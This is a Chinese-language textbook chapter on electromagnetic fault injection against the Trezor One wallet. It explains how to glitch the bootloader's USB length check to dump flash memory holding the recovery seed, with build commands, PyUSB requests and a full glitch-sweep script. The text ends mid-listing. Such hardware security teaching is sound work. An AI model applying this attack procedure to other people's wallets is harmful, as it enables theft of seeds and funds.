






# 第七章：标记地点：Trezor One 钱包内存转储


让我们通过破解一个真实目标来完成这一系列关于故障注入的章节：Trezor One 钱包。我们将使用电磁故障注入技术来演示内存转储，并提取恢复种子，恢复种子是访问钱包内容所需的唯一信息。

本章将是本书中最开放的一章。它描述了一种高级攻击，可能需要更专业的设备，并且即使调整得很精确，成功率也非常低。事实上，重新创建这种攻击将是一个很好的学期项目。要跟进整个攻击过程，你需要对嵌入式设计有扎实的理解，配合一些复杂的仪器设置，并且还需要一些运气。不过，我们认为展示从简单设备到实际产品的过渡是很重要的。

我们在第五章的“电磁故障注入”一节中讨论过电磁故障注入（EMFI）。EMFI 试图在设备表面上方立即产生强大的脉冲，导致目标内部发生各种破坏。在本章中，我们将使用一款名为 ChipSHOUTER 的 EMFI 工具来进行故障注入。

## 攻击介绍

我们的目标是 Trezor One 比特币钱包。这个小设备可以用来存储比特币，实际上意味着它提供了一种安全存储用于加密操作的私钥的方法。我们不需要深入探讨钱包的操作细节，但理解 *恢复种子* 的概念至关重要。恢复种子是一系列编码恢复密钥的单词，知道该恢复种子就足以恢复私钥。这意味着，盗取恢复种子的人（如果没有进一步访问钱包）也可以访问钱包中存储的资金。任何能找到密钥的攻击，都会对所有者珍贵的比特币安全构成严重威胁。

我们在这里描述的攻击灵感来自于其他一些工作。Dmitry Nedospasov、Thomas Roth 和 Josh Datko 在 Chaos Computer Club (CCC) 上的“wallet.fail”演示展示了如何突破 STM32F2 安全保护并转储静态 RAM (SRAM) 内容。相反，我们将展示如何直接转储存储种子的闪存内容，因此这是一个不同的攻击方式，但结果相似。

我们将使用 EMFI 技术，这样我们可以在不拆除外壳的情况下进行攻击。这意味着攻击者可以在不留下任何修改钱包痕迹的情况下进行攻击，无论钱包经过多仔细的检查。本章介绍了几种更高级的工具，你将看到，使用这些工具时，投资在真实目标的攻击上是值得的。例如，我们将使用 USB 作为我们攻击的时序工具。真正的 USB 嗅探器（例如 Total Phase Beagle USB 480）在理解时序方面至关重要。附录 A 中有关于工具的更详细讨论。

## Trezor One 钱包内部结构

Trezor One 钱包是开源的，这使得这个攻击成为了一个很好的演示案例，用于教授 EMFI 和故障注入。你可以自由修改代码或编程旧版本，这些版本尚未修补该漏洞。

Trezor 的源代码可以在 GitHub 上的 trezor-mcu 项目中找到。如果你想按照本章的步骤进行操作，可以在 GitHub 上选择“v1.7.3”标签，或者点击链接[`github.com/trezor/trezor-mcu/tree/v1.7.3/`](https://github.com/trezor/trezor-mcu/tree/v1.7.3/)，该链接将带你到这个确切版本。这个漏洞在固件发布后早已被修复，届时你阅读本书时该版本已经不可用，所以你需要查看较旧的（存在漏洞的）代码，以更好地理解具体的攻击方式。Trezor 基于 STM32F205。图 7-1 显示了没有外壳的设备。



图 7-1：Trezor One 钱包内部结构

打印电路板（PCB）左侧的六个插座是 JTAG 接口。STM32F205 芯片位于外壳表面下方，这是我们在实际场景中使攻击更加真实的一个特点。

实际的敏感恢复种子存储在一个叫做 *metadata* 的闪存部分。它位于引导加载程序之后，如列表 7-1 所示。部分头文件定义了闪存空间中各个感兴趣项目的位置。

```
`--snip--`
#define FLASH_BOOT_START     (FLASH_ORIGIN)
#define FLASH_BOOT_LEN       (0x8000)

#define FLASH_META_START     (FLASH_BOOT_START + FLASH_BOOT_LEN)
#define FLASH_META_LEN       (0x8000)

#define FLASH_APP_START      (FLASH_META_START + FLASH_META_LEN)
`--snip--`
```

列表 7-1：闪存空间中各个感兴趣项目的位置

`FLASH_META_START` 地址位于引导加载程序部分的末尾。通过按住 Trezor 前面的两个按钮，你可以进入引导加载程序，这样就可以通过 USB 加载固件更新。由于恶意固件更新可能会简单地读取元数据，引导加载程序会验证固件更新中是否存在各种签名，以防止此类攻击。使用故障注入加载未经验证的固件是一种攻击方法，但这并不是我们将要使用的方法。所有这些攻击的问题在于，Trezor 会在加载并验证新文件之前*擦除*闪存，并在此过程中将敏感元数据存储在 SRAM 中。wallet.fail 的披露实际上攻击了这个过程，因为有可能通过故障操作将 STM32 从代码读保护级别 RDP2（完全禁用 JTAG）切换到级别 RDP1（使 JTAG 能够从 SRAM 中读取，但不能读取代码）。

如果我们的攻击破坏了 SRAM（或需要重新启动来恢复错误状态），执行该擦除操作是非常危险的。wallet.fail 攻击能够恢复 SRAM，但我们将使用的攻击方法可能会破坏 SRAM，这意味着任何错误都会永久销毁恢复种子。相反，我们将尝试直接读取闪存，这样更安全，因为我们确保不会执行擦除命令，意味着数据安全地存储在内存中，等待我们提取。

## USB 读取请求故障

由于引导加载程序支持 USB，因此它还包含非常标准的 USB 处理代码。列表 7-2 显示了其中的一部分，这来自 Trezor 固件源代码树中的 *winusb.c* 文件。我们选择这个特定的“控制厂商请求”函数，因为它通过 USB 发送“guid”。

```
static int winusb_control_vendor_request(usbd_device *usbd_dev,
                                   struct usb_setup_data *req,
                                   uint8_t **buf, uint16_t *len,
                                   usbd_control_complete_callback* complete) {
  (void)complete;
  (void)usbd_dev;

  if (req->bRequest != WINUSB_MS_VENDOR_CODE) {
    return USBD_REQ_NEXT_CALLBACK;
  }

  int status = USBD_REQ_NOTSUPP;
  if (((req->bmRequestType & USB_REQ_TYPE_RECIPIENT) == USB_REQ_TYPE_DEVICE) &&
     (req->wIndex == WINUSB_REQ_GET_COMPATIBLE_ID_FEATURE_DESCRIPTOR))
  {
       *buf = (uint8_t*)(&winusb_wcid);
       *len = MIN(*len, winusb_wcid.header.dwLength);
       status = USBD_REQ_HANDLED;

  } else if (((req->bmRequestType & USB_REQ_TYPE_RECIPIENT) ==
             USB_REQ_TYPE_INTERFACE) &&
       (req->wIndex == WINUSB_REQ_GET_EXTENDED_PROPERTIES_OS_FEATURE_DESCRIPTOR)
      && (usb_descriptor_index(req->wValue) ==
          winusb_wcid.functions[0].bInterfaceNumber))
  {
        *buf = (uint8_t*)(&guid);
      1 *len = MIN(*len, guid.header.dwLength);
        status = USBD_REQ_HANDLED;

 } else {
        status = USBD_REQ_NOTSUPP;
  }

  return status;
}
```

列表 7-2：我们尝试故障的 WinUSB 控制请求函数

控制请求函数首先检查有关 USB 请求的一些信息。它会查找匹配的`bRequest`、`bmRequestType`和`wIndex`，这些都是 USB 请求的属性。最后，原始的 USB 请求本身包含一个`wLength`字段，表示计算机请求返回的数据量。这作为`*len`参数从清单 7-2 传入函数。（细心的观察者还会注意到清单 7-2 中的`dwLength`结构成员，其功能完全不同：`dwLength`是根据设备中编程的描述符确定的可返回数据的大小。）我们可以自由地请求最多`0xFFFF`字节的数据，这正是我们将要做的。但是，代码会执行`MIN()`操作 1，将实际发送回计算机的数据长度限制为请求长度和我们将返回的描述符大小中的较小者。计算机始终可以请求比描述符大小更小的数据量，但如果请求的数据量大于设备所拥有的（也就是请求的响应大小大于描述符的长度），设备会只发送有效数据。

如果对`wLength`的`MIN()`调用返回错误的值，会发生什么？虽然代码会按预期返回描述符，但它也会将描述符后的所有数据一直发送到从描述符起始位置的偏移`0xFFFF`。之所以会发生这种情况，是因为`MIN()`调用确保用户请求只允许读取有效内存，但如果`MIN()`调用返回错误的值，那么就意味着用户请求可以读取比预期更多的内存。这个“比预期更多”的内存区域包括了我们宝贵的元数据。USB 堆栈并不知道这些数据不应该被返回。USB 堆栈只是简单地按照计算机的请求发送数据块。整个系统的安全性仅依赖于一个简单的长度检查。

这是我们的计划：我们将使用故障注入绕过依赖于单条指令的检查 1。我们利用引导加载程序（和“guid”）位于内存中低于敏感恢复种子位置的事实。我们计划通过从低地址读取到高地址的方式转储内存，因此只有在攻击引导加载程序中的 USB 代码时，攻击才可能成功。如果我们攻击常规应用程序中的 USB 代码，而该应用程序位于`FLASH_APP_START`，那么很可能有趣的部分已经指向超出了敏感的`FLASH_META_START`区域（请参见清单 7-1）。

在我们深入执行实际故障的细节之前，让我们先对我们的说法进行一些合理性检查。你可以在自己的代码中使用这些检查来帮助理解类似漏洞的影响。

## 反汇编代码

第一个健全性检查是确认简单的故障是否能够导致我们预期的操作。我们可以通过检查 Trezor 固件的反汇编代码来轻松完成这一点，使用交互式反汇编器（IDA），它显示了汇编代码的分解（来自清单 7-2），如图 7-2 所示。


图 7-2：可能的故障注入位置示例

`wLength` 的传入值被存储在 `R1` 中，并且在反汇编中，`R1` 与 `0x92` 进行比较。如果它更大，则通过条件移动指令（Arm 汇编中的 `MOVCS`）将其设置为 `0x92`。这些汇编语句是 C 源代码中对 `MIN(*len, guid.header.dwLength)` 调用的实现，来源于清单 7-2。由于我们在反汇编中可以观察到的代码流程，我们只需要跳过 `MOVCS` 指令，就能实现接受用户提供的 `wLength` 字段的目标。

第二个健全性检查是确认没有更高层的保护存在。例如，也许 USB 堆栈实际上不接受如此大的响应，因为没有真正的需求这样做。确认这一点稍微难以通过简单检查完成，但 Trezor 的开源特性使得这一点成为可能。我们可以简单地修改代码，注释掉安全检查，然后验证我们是否可以请求大量内存。如果你不想重新编译代码，但有调试器访问权限，你也可以使用附加的调试器在 `MOVCS` 指令上设置断点，并切换标志的状态或操作程序计数器以绕过该指令。

验证此健全性检查与实际攻击的方式相同。我们将在接下来的章节中详细说明所有细节。目前，我们只展示没有其他障碍阻止通过控制请求发送大型缓冲区。攻击代码发送一个 `0xFFFF` 长度的请求。图 7-3 显示了使用 Total Phase Beagle USB 480 捕获的 USB 流量。当我们不修改 `MOVCS` 指令时，USB 请求返回预期的 146 字节（`0x92`）长度，显示在索引 3、索引 24 和索引 45。



图 7-3：禁用长度检查后捕获的 USB 流量

修改指令（或使用调试器手动清除比较标志）来绕过此检查，结果是返回完整大小的响应，因为索引 66 的长度是 65535，或 `0xFFFF`。这表明不存在任何隐藏的功能，根本不会阻止攻击的成功。

## 构建固件并验证故障

我们大致会遵循 Trezor 开发者指南中关于构建 Trezor 固件的文档，该文档可在 Trezor Wiki 上找到 ([`wiki.trezor.io/`](https://wiki.trezor.io/))。以下是具体步骤：

1.  克隆生产固件并检查已知的易受攻击版本。

1.  构建不带内存保护的固件。

1.  编程并测试设备。

1.  编辑固件以删除 USB 长度检查并尝试我们的攻击。

图 7-4 显示了一个附加了 JTAG 调试器的 Trezor。这台 Trezor 是一个生产单元，已更换主芯片。



图 7-4：一台生产 Trezor，已通过更换 STM32F205 为新设备来启用 JTAG 端口

我们使用了 SEGGER J-Link 作为调试器，但 ST-Link/V2 也可以使用，而且成本更低。Trezor 板的原理图可以在 Trezor 硬件的 GitHub 仓库中找到，[`github.com/trezor/trezor-hardware/tree/master/electronics/trezor_one/`](https://github.com/trezor/trezor-hardware/tree/master/electronics/trezor_one/)，该仓库详细说明了板上的测试点引脚排列。

由于我们以这种方式构建的固件都是未签名的，Trezor 将阻止我们从未签名的固件重新编程引导加载程序。这意味着完全构建最终固件是没有意义的，因为这意味着我们需要重写引导加载程序。列表 7-3 展示了保护引导加载程序的代码部分。

```
jump:jump_to_firmware(const vector_table_t *ivt, int trust) {
  if (FW_SIGNED == trust) {    // trusted signed firmware
    SCB_VTOR = (uint32_t)ivt;  // * relocate vector table
    // Set stack pointer
    __asm__ volatile("msr msp, %0" ::"r"(ivt->initial_sp_value));
  } else {  // untrusted firmware
    timer_init();
    mpu_config_firmware();  // * configure MPU for the firmware
    __asm__ volatile("msr msp, %0" ::"r"(_stack));
  }
```

列表 7-3：引导加载程序禁用应用程序覆盖自己以防止不受信任固件的能力（摘自*util.h*）

如果加载了不受信任的固件，内存保护单元将配置为禁用对闪存中引导加载程序部分的访问。如果列表 7-3 中的代码没有出现，我们本可以使用自定义应用程序代码构建来加载我们想要评估的引导加载程序。

构建引导加载程序的前几个步骤很简单（见列表 7-4），大致遵循文档。你需要在 Linux 机器或 Linux 虚拟机上执行这些操作；我们的示例基于 Ubuntu。我们只构建引导加载程序本身，因为漏洞就存在于这里。此构建序列避免了一些构建完整应用程序（主要是`protobuf`）所需的依赖项，这些依赖项的安装可能稍微麻烦一些。

```
**sudo apt install git make gcc-arm-none-eabi protobuf-compiler python3 python3-pip**
**git clone --recursive https://github.com/trezor/trezor-mcu.git**
**cd trezor-mcu**
**git checkout v1.7.3**
**make vendor**
**make -C vendor/nanopb/generator/proto**
**make -C vendor/libopencm3 lib/stm32/f2**
**make MEMORY_PROTECT=0 && make -C bootloader align MEMORY_PROTECT=0**
```

列表 7-4：为 Trezor 1.7.3 设置和构建引导加载程序

你可能需要做一些额外的调整来使其工作。根据编译器的不同，引导加载程序可能会变得太大，此时`export CFLAGS=-Os`可以提供帮助。如果这样做有效，你将生成一个名为*bootloader/bootloader.elf*的文件。

包含`MEMORY_PROTECT=0`的这一行对调试至关重要。如果你拼写错误（或忘记）这一行，一些内存保护逻辑将被启用。内存保护的一项功能是*锁定 JTAG*，使得未来无法使用。为了避免未来的错误，我们建议编辑*memory.c*文件，并立即从第 30 行的`memory_protect()`函数返回。如果你在没有禁用内存保护的情况下编程并运行引导加载程序，你将*立即失去重新编程或调试芯片的能力*（永久性）。编辑该文件将防止你在需要更换板上芯片时感到非常不开心。

主 *Makefile* 文件构建了一个小型库，其中包含了内存保护逻辑。为了避免忘记重新构建该库，我们建议在 清单 7-3 中将两条命令写在一行中。这也将构建包含我们要验证代码的 *winusb.c* 文件。

接下来怎么办？你现在可以使用编程器加载固件代码。我们使用的是 ST-Link/V2。编程代码之前，再次确认你已经禁用了此构建中的内存保护代码。图 7-4 再次显示了 JTAG 的物理连接。你需要 ST-Link/V2 的编程软件；在 Windows 上，这是 ST 提供的 STM32 ST-LINK 工具，而在 Mac 或 Linux 上，你可以构建开源的 `stlink` 工具。

下一步是保持引导加载程序模式并发送一些有趣的 USB 请求。为此，插入设备时按住两个按钮进入引导加载程序模式。如果你使用的是带有 LCD 屏幕的设备（本实验不要求），你将看到引导加载程序模式显示在屏幕上。

接下来，你将使用 Python 和 PyUSB，你可以通过 `pip install pyusb` 命令来安装它。

在 Linux 上，你应该能够直接与 Trezor 设备通信。目标是运行 清单 7-5 中的 Python 代码，它会打印出已读取 146 字节的消息。你可能需要为 Trezor 设备设置 `udev` 规则（或者以 root 权限运行脚本）。

直接使用类似 Unix 的系统将提供最可靠的结果。如果在 Windows 上发生过多异常事件，USB 端口通常会被禁用，这会使我们的研究尝试变得复杂。

清单 7-5 假设你使用的是 Linux。

```
import usb.core
import time

dev = usb.core.find(idProduct=0x53c0)
dev.set_configuration()

#Get WinUSB GUID structure
resp = dev.ctrl_transfer(0xC1, 0x21, wValue=0, wIndex=0x05, data_or_wLength=0x1ff)
resp = list(resp)

print(len(resp))
```

清单 7-5：尝试读取 USB 描述符

`data_or_wLength` 变量请求了 `0x1ff`（511）字节，但实际上应该返回的是 146 字节，因为那是描述符的长度。你可以尝试请求更多的数据。你可能会注意到，在某个时刻，操作系统会返回一个“无效参数”错误。理论上，在某些系统上，我们可以请求最多 `0xFFFF` 字节，但许多操作系统并不允许你请求这么高的数值。当你准备进行故障注入时，你需要确保请求不会被操作系统自己终止，因此要找到你设置的上限。

你可能还需要通过附加 `timeout=50` 参数来增加 清单 7-5 中 `dev.ctrl_transfer()` 调用的超时。控制请求通常会非常迅速地返回，但如果你成功地读取了大块数据，默认的超时可能太短。

## USB 触发与定时

在我们插入故障之前，需要知道何时插入故障。我们知道我们想要故障目标的确切指令，也知道我们通过 USB 发送的命令。然而，我们需要做得更好，以便在确切的指令上定位故障。在我们的案例中，由于我们可以访问软件，我们将在第一次测试中“作弊”，并测量实际执行时间。如果没有这种能力，我们将会遇到一个更慢的过程，或者需要通过反复试验强行找出正确的时机。

首先，我们需要获得 USB 数据本身的更稳定触发。经典方法是使用像 Total Phase Beagle USB 480 这样的设备，它可以基于通过 USB 线传输的物理数据进行触发。图 7-5 展示了这个设置。



图 7-5: 触发 WinUSB 消息的设置

Total Phase Beagle USB 480 还具有一个漂亮的嗅探器界面，因此我们可以嗅探流量，更好地理解返回的（格式错误的）数据包。这个功能非常有用，因为我们可以看到，例如，USB 请求的确切部分被中断/损坏，这可能为我们提供一些线索，帮助我们判断程序执行到代码的哪一部分。

如果你没有 Beagle，Micah Scott 开发了一个简单的模块，叫做 FaceWhisperer，它可以进行实时故障注入，并且可以在 GitHub 上找到（[`github.com/scanlime/facewhisperer/`](https://github.com/scanlime/facewhisperer/)）。它使用 USB 进行故障触发，并已与电压故障结合使用，用于从绘图板提取固件。Great Scott Gadgets 的 Kate Temkin 也开发了多个工具，包括 GreatFET 的附加模块以及各种 USB 工具，如 LUNA。我们使用的是 Colin 开发的工具——PhyWhisperer-USB。

开源的 PhyWhisperer-USB 旨在根据特定数据包执行 USB 触发。Trezor USB 数据通过 PhyWhisperer-USB 传输，从而使计算机仍然可以向 Trezor 设备发送实际的 USB 消息。

PhyWhisperer-USB 通过 Python 程序（或 Jupyter 笔记本）使用。Listing 7-6 展示了初始设置，简单地连接到 PhyWhisperer-USB。

```
import phywhisperer.usb as pw
import time
phy = pw.Usb()
phy.con()
phy.set_power_source("off")
time.sleep(0.5)
phy.reset_fpga()
phy.set_power_source("host")
#Let device enumerate
time.sleep(1.0)
```

Listing 7-6: PhyWhisperer-USB 设置

该设置要求你按住 Trezor 上的按钮，以确保它以引导加载程序模式启动。此脚本通过电源循环目标设备，以便 PhyWhisperer-USB 可以通过观察枚举序列来匹配 USB 速度。

每次我们想要触发时，我们都会设置触发器并使 PhyWhisperer-USB 处于准备状态，如 Listing 7-7 所示。

```
#Configure pattern for request we want, arm
phy.set_pattern(pattern=[0xC1, 0x21], mask=[0xff, 0xff])
phy.set_trigger(delays=[0])
phy.arm()
```

Listing 7-7: 基于我们发送请求的触发器

在这里，我们根据我们发送的请求来设置触发器（如 列表 7-5 所示）。我们可以在主机系统上运行 列表 7-5 中的代码，这将启动我们在 Trezor 上的 列表 7-2 中想要攻击的代码。PhyWhisperer-USB 上的 Trig Out 连接器将发出一个短暂的触发脉冲，该脉冲与 USB 请求通过电缆的时刻一致。

稍后，在故障攻击过程中，我们将使用 PhyWhisperer-USB 来确定 USB 请求与我们想要攻击的特定指令之间的时间间隔。在 USB 请求触发代码执行之后，会有一小段时间才会执行实际的目标指令。调整 `set_trigger()` 参数可以让我们将触发输出推迟到稍后的时间点，以便将故障的时机与目标指令对齐。

PhyWhisperer-USB 的优势在于我们还可以监视 USB 流量。USB 数据捕获从触发开始；我们使用 列表 7-8 中的代码从 PhyWhisperer-USB 中读取数据。

```
raw = phy.read_capture_data()
phy.addpattern = True
packets = phy.split_packets(raw)
phy.print_packets(packets)
```

列表 7-8：从 PhyWhisperer-USB 读取 USB 数据的代码

列表 7-9 显示了捕获结果，这对于观察是否使用了正确的触发数据包以及是否抛出了 USB 错误非常有用。

```
[      ]   0.000000 d=  0.000000 [   .0 +  0.017] [ 10] Err - bad PID of 01
[      ]   0.000006 d=  0.000006 [   .0 +  5.933] [  1] ACK
[      ]   0.000013 d=  0.000007 [   .0 + 12.933] [  3] IN   : 41.0
[      ]   0.000016 d=  0.000003 [   .0 + 16.350] [ 67] DATA1: 92 00 00 00 00 01 05 00 01 00 88 00 00 00 07 00 00 00 2a 00 44 00 65 00 76 00 69 00 63 00 65 00 49 00 6e 00 74 00 65 00 72 00 66 00 61 00 63 00 65 00 47 00 55 00 49 00 44 00 73 00 00 00 50 00 52 11
[      ]   0.000062 d=  0.000046 [   .0 + 62.350] [  1] ACK
[      ]   0.000064 d=  0.000002 [   .0 + 64.267] [  3] IN   : 41.0
[      ]   0.000068 d=  0.000003 [   .0 + 67.600] [ 67] DATA0: 00 00 7b 00 30 00 32 00 36 00 33 00 62 00 35 00 31 00 32 00 2d 00 38 00 38 00 63 00 62 00 2d 00 34 00 31 00 33 00 36 00 2d 00 39 00 36 00 31 00 33 00 2d 00 35 00 63 00 38 00 65 00 31 00 30 00 2d a6
[      ]   0.000114 d=  0.000046 [   .0 +113.600] [  1] ACK
[      ]   0.000149 d=  0.000036 [168   +  3.250] [  3] IN   : 41.0
[      ]   0.000153 d=  0.000003 [168   +  6.667] [ 21] DATA1: 39 00 64 00 38 00 65 00 66 00 35 00 7d 00 00 00 00 00 e7 b2
[      ]   0.000168 d=  0.000015 [168   + 22.000] [  1] ACK
[      ]   0.000174 d=  0.000006 [168   + 28.000] [  3] OUT  : 41.0
[      ]   0.000177 d=  0.000003 [168   + 31.250] [  3] DATA1: 00 00
[      ]   0.000181 d=  0.000003 [168   + 34.500] [  1] ACK
```

列表 7-9：运行 列表 7-8 中代码的输出

请注意，由于捕获在控制包的中途开始，第一行中出现了 `Err - bad PID of 01` 错误。调整触发模式以包括完整的数据包将防止此错误。对于我们这里的攻击来说，这个错误无关紧要。

在自动化我们的故障攻击时，我们可以检测到不是预期效果的故障（例如读取过多数据），但仍然会破坏 USB 数据或导致错误。知道这些错误的时机是有用的信息。例如，如果我们看到错误发生在已经返回 USB 数据之后，我们就知道我们的故障发生得太晚，效果不佳。

一旦我们基于 USB 请求设置了“通过电缆”传输的触发器，我们还会通过在 Trezor 上设置一个 I/O 引脚为高电平来插入第二个触发器，当敏感代码运行时触发该引脚。我们使用它来表征时序，因为我们可以使用示波器测量从 USB 数据包传输到电缆到敏感代码执行之间的时间。

我们可以通过检查 Trezor 板的原理图来找到一个有用的备用 I/O 引脚；在我们的案例中，我们找到了 v1.1 的原理图，链接为 [`github.com/trezor/trezor-hardware/blob/master/electronics/trezor_one/trezor_v1.1.sch.png`](https://github.com/trezor/trezor-hardware/blob/master/electronics/trezor_one/trezor_v1.1.sch.png)。我们看到来自 K2 接口的 SWO 引脚（在 图 7-1 中可见）被接到 I/O 引脚 PB3。如果 Trezor 在比较操作过程中能够切换 PB3，那么这将为故障注入提供有用的时序信息。这样可以避免我们需要扫描一个较大的时间范围。清单 7-10 显示了如何在 Trezor 的 STM32F215 上执行 GPIO 切换的简单示例。

```
//Add this at top of winusb.c
#include <libopencm3/stm32/gpio.h>

//Somewhere we want to make a trigger:
gpio_mode_setup(GPIOB, GPIO_MODE_OUTPUT, GPIO_PUPD_NONE, GPIO3);
gpio_set(GPIOB, GPIO3);
gpio_clear(GPIOB, GPIO3);
```

清单 7-10：切换 PB3，PB3 引脚连接到 K2 接口上的 SWO 引脚

如果我们将 清单 7-10 中的代码插入到我们希望故障的地方，重建引导加载程序，然后运行该代码，我们应该会在 SWO 引脚上获得一个短脉冲，供我们进行时序控制。再次提醒，为了执行此评估，你需要一台已经被破解以允许重新编程的 Trezor。

在这种情况下，PhyWhisperer-USB 触发器与 Trezor 触发器之间的时间大约为 4.2 到 5.5 微秒。这并不是完美的时序，因为似乎存在由于 USB 包被队列处理而产生的抖动。看到这样的抖动告诉我们，在进行故障注入时，我们不应期望实现完美的可靠性。然而，它为我们提供了一个时间范围，我们可以在其中调整时序参数。

## 通过外壳进行故障注入

在这一节中，我们将从目标的探索阶段进入实际故障注入的阶段。

### 设置

为了插入故障，我们的设置（如 图 7-6 所示）包括将 ChipSHOUTER EMFI 工具安装在手动 XY 工作台上，以便精确定位线圈。Trezor 目标也安装在 XY 工作台上，PhyWhisperer-USB 通过内部开关提供触发和目标电源控制。电源控制功能很有用，因为我们可以在目标崩溃时重置它。电源控制是故障注入专用设备的常见功能，但像 Beagle USB 480 这样的通用工具却没有此功能。

Trezor 安装的物理“夹具”按下了两个前面板按钮，确保它在启动时始终进入引导加载程序模式。



图 7-6：完整设置，包含 Trezor（中）、ChipSHOUTER（左）和 PhyWhisperer-USB（右）

### 回顾故障注入的代码

清单 7-11 和 7-12 中的脚本（为可读性分割）允许我们对设备进行电源循环，发出 WinUSB 请求，并基于 PhyWhisperer-USB 中检测到的 WinUSB 请求触发 ChipSHOUTER。

```
#PhyWhisperer-USB Setup
import time
import usb.core
import phywhisperer.usb as pw
phy = pw.Usb()
phy.con()

delay_start = phy.us_trigger(1.0) # Start at 1us from trigger
delay_end = phy.us_trigger(5.5) # Sweep to 5.5us from trigger

delay = delay_start
go = True

golden_valid = False

#Re-init power cycles the target when it’s fully crashed
1 def reinit():
    phy.set_power_source("off") 
    time.sleep(0.25)
    phy.reset_fpga()
    phy.set_capture_size(500)
    phy.set_power_source("host")
    time.sleep(0.8)

fails = 0
```

清单 7-11：当 Trezor 处于引导加载程序模式时，简单的脚本部分 1，用于故障注入 Trezor 比特币钱包

在此设置中，我们使用了 PhyWhisperer-USB 目标设备的电源控制功能，正如`reinit()`函数 1 所示，当调用时会对目标进行电源循环。此功能在目标崩溃时执行错误恢复。一个更稳健的脚本可能会在每次尝试时都进行电源循环，但这里有一个权衡，因为电源循环是循环中最慢的操作。我们可以尝试通过仅在目标停止响应时进行电源循环来执行更快的故障循环，但这样做的权衡是我们无法保证每次设备都以相同的状态启动。

清单 7-12 显示了攻击的实际循环体。

```
while go:
    if delay > delay_end:
        print("New Loop Entered")
        delay = delay_start

    #Re-init on first run through (golden_valid is False) or if a number of fails
    if golden_valid is False or fails > 10:
        reinit()
        fails = 0
    phy.set_trigger(delays=[delay], widths=[12]) #12 is width of EMFI pulse 1
    phy.set_pattern(pattern=[0xC1, 0x21]) 2
    dev = None

    try:
        dev = usb.core.find(idProduct=0x53c0)
        dev.set_configuration() 3
    except:
        #If we fail multiple times, eventually triggers DUT power cycle
        fails += 1
        continue

    #Glitch only once we've recorded the 'golden sample' of expected output
    if golden_valid is True:
        phy.arm() 4
    time.sleep(0.1)

    resp = [0]
    try:
        resp = dev.ctrl_transfer(0xC1, 0x21, wValue=0, wIndex=0x05, data_or_wLength=0x1ff) 5
        resp = list(resp)

        if golden_valid is False:
            gold = resp[:] 6
            golden_valid = True

        if resp != gold:
            #Odd (but valid!) response
            print("Delay: %d"%delay)
            print("Length: %d"%len(resp))
            print("[", ", ".join("{:02x}".format(num) for num in resp), "]")
            raw = phy.read_capture_data() 7
            phy.addpattern = True
            packets = phy.split_packets(raw)
            phy.print_packets(packets)
 if len(resp) > 146:
            #Too-long response is desired result
            print(len(resp))
            go = False
            break

    except OSError: 8
        #OSError catches USBError, normally means device crashed
        reinit()

    delay += 1

    if (delay % 10) == 0:
        print(delay)
```

清单 7-12：一个简单脚本的第二部分，用于在 Trezor 比特币钱包处于引导加载程序模式时进行故障注入

触发输出相对于 USB 消息触发的实际时序和 EMFI 脉冲宽度已设置为 1。脉冲宽度（`12`）是通过前面讨论的技术发现的，主要是通过调整宽度，直到看到设备重置（可能是脉冲太宽！），然后再减少宽度，直到设备似乎快崩溃为止。我们通过寻找损坏的迹象而不是完全崩溃的设备来确认这个边界是成功的宽度。对于 Trezor，我们可以通过查看无效消息或显示某些错误消息来找到这一点。对于调节宽度，我们没有使用清单 7-12 中的循环。相反，我们会在设备启动时插入故障，当时它正在验证内部内存。如果签名检查失败，Trezor 会显示一条消息，我们可以利用这条消息来指示我们已经找到适用于我们 EMFI 工具的良好参数，这些参数将在此设备上引发故障。出现故障时签名检查失败，很可能意味着我们以某种方式影响了程序流程（足够干扰签名检查），但故障“强度”不够大，因此没有导致设备崩溃。

我们设置的触发条件消息模式是设置 2，它应与我们稍后发送给设备的 USB 请求相匹配。在每次迭代中，Trezor 引导加载程序会通过`libusb`调用`dev.set_configuration()` 3 重新连接，这也是错误处理的一部分。如果这一行抛出异常，很可能是因为主机的 USB 堆栈没有检测到设备。

注意`libusb`调用 3 后`except`块的静默错误抑制。此`except`块假设电源循环足以恢复目标，但如果主机 USB 堆栈崩溃，脚本会静默停止工作。如前所述，我们建议在裸机 Unix 系统上运行此脚本，因为 Windows 通常由于主机 USB 堆栈在几次快速断开/重新连接循环后阻塞设备而迅速导致问题。我们在虚拟机中也有类似的负面体验。

为了了解故障是否有任何影响，我们保留一个“黄金参考”作为预期的 USB 请求响应。实际的故障仅在`arm()`函数 4 被调用并且 USB 请求 5 之前插入。第一次执行时，当黄金参考被采集 6 时，`arm()`函数不会被调用，以确保我们捕获到无故障（“黄金”）输出。

有了这个黄金参考，我们现在可以标记任何异常响应。在故障注入期间发生的 USB 流量会被打印出来 7。这会下载当请求与设定的模式匹配时自动捕获的数据 2。

目前的代码只打印有效响应的信息。你可能还需要打印无效响应的 USB 捕获数据，以确定故障是否导致错误的插入。PhyWhisperer-USB 仍然会捕获无效数据。你需要将捕获和打印例程移到`except OSError`块中 8。任何错误都会使代码跳转到`OSError`异常块，因为 USB 栈不会返回部分或无效的数据。

### 运行代码

例如，列表 7-13 展示了 WinUSB 请求的黄金参考。

```
Length: 146
[ 92, 00, 00, 00, 00, 01, 05, 00, 01, 00, 88, 00, 00, 00, 07, 00, 00, 00, 2a, 00, 44, 00, 65, 00, 76, 00, 69, 00, 63, 00, 65, 00, 49, 00, 6e, 00, 74, 00, 65, 00, 72, 00, 66, 00, 61, 00, 63, 00, 65, 00, 47, 00, 55, 00, 49, 00, 44, 00, 73, 00, 00, 00, 50, 00, 00, 00, 7b, 00, 30, 00, 32, 00, 36, 00, 33, 00, 62, 00, 35, 00, 31, 00, 32, 00, 2d, 00, 38, 00, 38, 00, 63, 00, 62, 00, 2d, 00, 34, 00, 31, 00, 33, 00, 36, 00, 2d, 00, 39, 00, 36, 00, 31, 00, 33, 00, 2d, 00, 35, 00, 63, 00, 38, 00, 65, 00, 31, 00, 30, 00, 39, 00, 64, 00, 38, 00, 65, 00, 66, 00, 35, 00, 7d, 00, 00, 00, 00, 00 ]
```

列表 7-13：USB 事务的黄金参考

这个黄金参考是返回数据的值，因此任何不同的返回数据都预示着一个有趣（或有用）的故障。

列表 7-14 显示了我们在实验中观察到的一个可重复的条件。返回的数据（82 字节）比黄金参考的长度（146 字节）要短。

```
Delay: 1293
Length: 82
1 [ 00, 00, 7b, 00, 30, 00, 32, 00, 36, 00, 33, 00, 62, 00, 35, 00, 31, 00, 32, 
